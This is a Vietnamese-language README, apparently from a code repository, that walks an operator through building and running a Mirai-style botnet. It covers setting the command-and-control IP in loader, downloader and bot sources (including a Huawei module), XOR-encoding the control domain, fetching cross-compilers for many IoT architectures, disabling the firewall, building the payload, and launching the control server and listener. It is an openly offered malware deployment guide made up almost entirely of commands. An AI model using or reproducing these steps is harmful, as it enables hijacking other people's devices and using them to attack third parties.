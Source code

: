 TUT của zxcr9999

### Sao chép và dán tất cả vào shit vps của bạn
```
yum update -y
```
```
yum install epel-release -y
```
```
yum groupinstall "Development Tools" -y
```
```
yum install gmp-devel -y
```
```
ln -s /usr/lib64/libgmp.so.3  /usr/lib64/libgmp.so.10
```
```
yum install screen wget bzip2 gcc nano gcc-c++ electric-fence sudo git libc6-dev httpd xinetd tftpd tftp-server mysql mysql-server gcc glibc-static -y
```

### cài đặt golang
```
cd /tmp
wget https://dl.google.com/go/go1.13.linux-amd64.tar.gz
```
```
sha256sum go1.13.linux-amd64.tar.gz
```
```
sudo tar -C /usr/local -xzf go1.13.linux-amd64.tar.gz
```
```
export PATH=$PATH:/usr/local/go/bin
```
```
export GOROOT=/usr/local/go
```
```
export GOPATH=$HOME/Projects/Proj1
```
```
export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
```
```
export GOROOT=/usr/local/go; export GOPATH=$HOME/Projects/Proj1; export PATH=$GOPATH/bin:$GOROOT/bin:$PATH; go get github.com/go-sql-driver/mysql; go get github.com/mattn/go-shellwords
source ~/.bash_profile
```
```
go version
go env
cd ~/
```

### thay đổi ip

`loader/src/main.c`

`loader/src/headers/config.h`

`dlr/main.c`

`bot/huawei.c`

`bot/util.c`


### thêm tên miền

kéo tệp `enc.c` vào vps của bạn và gõ lệnh
```
gcc enc.c -o enc -std=c99
```
```
./enc string botnet.yourdomain.com
```
và thêm `TABLE_CNC_DOMAIN` vào trong tệp `table.c`

`botnet.yourdomain.com` là tên miền của bạn và nó được kết nối với IP để lưu trữ botnet

`add_entry(TABLE_CNC_DOMAIN, "\xa2\xaf\xa2\xef\xb3\xa0\xbb\xaf\xa4\xb5\xf3\xf1\xf3\xf0\xef\xac\xad", 17);`

số 17 sẽ tương ứng với byte xor
```
mkdir /etc/xcompile
cd /etc/xcompile
```
```
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv5l.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2
wget https://landley.net/aboriginal/downloads/old/binaries/1.2.6/cross-compiler-armv7l.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-x86_64.tar.bz2
```
```
tar -jxf cross-compiler-i586.tar.bz2
tar -jxf cross-compiler-m68k.tar.bz2
tar -jxf cross-compiler-mips.tar.bz2
tar -jxf cross-compiler-mipsel.tar.bz2
tar -jxf cross-compiler-powerpc.tar.bz2
tar -jxf cross-compiler-sh4.tar.bz2
tar -jxf cross-compiler-sparc.tar.bz2
tar -jxf cross-compiler-armv4l.tar.bz2
tar -jxf cross-compiler-armv5l.tar.bz2
tar -jxf cross-compiler-armv6l.tar.bz2
tar -jxf cross-compiler-armv7l.tar.bz2
tar -jxf cross-compiler-x86_64.tar.bz2
```
```
rm -rf *.tar.*
```
```
mv cross-compiler-i586 i586
mv cross-compiler-m68k m68k
mv cross-compiler-mips mips
mv cross-compiler-mipsel mipsel
mv cross-compiler-powerpc powerpc
mv cross-compiler-sh4 sh4
mv cross-compiler-sparc sparc
mv cross-compiler-armv4l armv4l
mv cross-compiler-armv5l armv5l
mv cross-compiler-armv6l armv6l
mv cross-compiler-armv7l armv7l
mv cross-compiler-x86_64 x86_64
```

### Bắt đầu xây dựng
```
service firewalld stop
service iptables stop 
service httpd restart  
service mariadb stop
```
```
cd cnc/
sh build.sh
```
```
cd ~/
chmod 777 *
sh build.sh
```
```
nano /usr/include/bits/typesizes.h
```
cuộn xuống và chỉnh sửa 1024 thành 999999

SAU ĐÓ LƯU
```
ulimit -n999999; ulimit -u999999; ulimit -e999999
```
### Xây dựng file `.sh`
```
python payload.py
```
### Cách khởi động cnc và listen
```
cd cnc/
screen ./cnc 56999 1337 10
screen ./listen
```
----------------------------------------------------------
Help: 56999 là cổng bot (nếu muốn thay thì vào file `bot/main.c` dòng 429), 1337 là cổng cnc, 10 là luồng (tối đa luồng là 750)
